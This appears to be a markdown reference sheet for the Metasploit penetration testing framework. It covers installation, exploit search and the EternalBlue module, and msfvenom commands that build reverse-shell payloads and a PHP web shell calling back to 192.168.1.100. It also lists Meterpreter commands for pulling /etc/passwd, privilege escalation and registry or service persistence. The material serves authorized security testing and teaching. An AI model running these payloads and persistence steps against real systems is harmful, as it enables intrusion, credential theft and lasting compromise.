 # Metasploit Framework - Penetration Testing Platform

Comprehensive penetration testing framework with extensive exploit and payload database.

## Installation

```bash
# Ubuntu/Debian
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall
chmod +x msfinstall
./msfinstall

# Manual installation
git clone https://github.com/rapid7/metasploit-framework.git
cd metasploit-framework
bundle install
```

## Core Components

### msfconsole
Main interface for exploit development and execution.

```bash
# Start console
msfconsole

# Search for exploits
search cve:2021-44228
search type:exploit platform:windows

# Use an exploit
use exploit/windows/smb/ms17_010_eternalblue
```

### msfvenom
Payload generation and encoding utility.

```bash
# Windows reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe > payload.exe

# Linux payload
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf > payload.elf

# PHP web shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > shell.php
```

### Auxiliary Modules

```bash
# Port scanning
use auxiliary/scanner/portscan/tcp

# SMB enumeration
use auxiliary/scanner/smb/smb_version

# HTTP directory scanner
use auxiliary/scanner/http/dir_scanner
```

## Post-Exploitation

### Meterpreter Commands

```bash
# System information
sysinfo
getuid

# File operations
download /etc/passwd
upload payload.exe C:\\temp\\

# Process migration
ps
migrate 1234

# Privilege escalation
getsystem
```

### Persistence

```bash
# Registry persistence
run persistence -S -U -X -i 60 -p 4445

# Service persistence
run metsvc -A
```

## Database Integration

```bash
# Initialize database
msfdb init

# Workspace management
workspace -a project1
hosts
services
```

## Custom Modules

Framework supports custom exploit and auxiliary module development in Ruby.
